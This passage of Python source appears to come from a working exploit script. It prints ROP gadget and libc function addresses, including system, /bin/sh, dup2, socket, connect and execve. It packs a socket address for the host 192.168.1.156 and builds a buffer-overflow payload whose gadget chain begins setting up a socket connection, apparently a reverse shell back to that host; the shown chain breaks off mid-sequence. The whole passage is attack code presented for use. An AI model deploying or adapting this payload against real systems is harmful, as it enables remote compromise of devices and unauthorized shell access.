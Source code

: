 ```python
            "g_add_r1_1_with_r0_cmp": g_add_r1_1_with_r0_cmp_ea,
            "g_mov_r2_0": g_mov_r2_0_ea,
            "g_str_r0_r4": g_str_r0_r4_ea,
            "g_pop_r1_r2_r3": g_pop_r1_r2_r3_ea,
            "g_pop_r3": g_pop_r3_ea,
            "g_add_r2_1": g_add_r2_1_ea,
            "g_strb_r0_r4": g_strb_r0_r4_ea
        }

        print('[gadgets]')
        for name, virt_addr in variables.items():
            print(f"{name} = {hex(virt_addr)} ({hex(virt_addr - base_address)})")

        print('[variables]')
        print('@dummy = ', hex(stack_dummy_ea))
        print('@csock = ', hex(stack_csock_ea))
        print('@sin =   ', hex(stack_sin_ea))
    

        print('[funcs]')
        print('@system = ', hex(system_ea))
        print('@binsh =  ', hex(binsh_ea))
        print('@dup2 =   ', hex(dup2_ea))
        print('@socket = ', hex(socket_ea))
        print('@connect =', hex(connect_ea))
        print('@exit =   ', hex(exit_ea))
        print('@execve = ', hex(execve_stub_ea))
        

        sin_family = 0xff02 
        sin_port = socket.htons(args.listen) 
        sin_addr = socket.inet_aton("192.168.1.156")
        sin_zero = b'\x01' * 8

        sin = struct.pack('<HH', sin_family, sin_port) + sin_addr + sin_zero
        print(sin)

        
        payload = b'A' * 299 # 173

        # data area
        payload += b'x' * 0x14  
        payload += sin
        payload += b'x' * 12 

        # reached @ret
        payload += p32(g_mov_r1_0_ea) # also set r0 to 0
        payload += b'B'*16
        payload += p32(0xdeadbeef) # r4
        payload += p32(0xdeadbeef) # r5
        payload += p32(0xdeadbeef) # r6
        payload += p32(g_add_r1_1_with_r0_cmp_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(g_add_r0_2_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(g_pop_r3_ea)
        payload += p32(stack_dummy_ea) # r3
        payload += p32(g_mov_r2_0_ea)
        payload += p32(0xdeadbeef) # r4
        payload += p32(socket_ea) # csock = socket(AF_INET = 2, SOCK_STREAM = 1, 0)
                                  # (will pop {r7, pc})
        payload += p32(0xdeadbeef) # r7
        payload += p32(g_pop_r4_ea)
```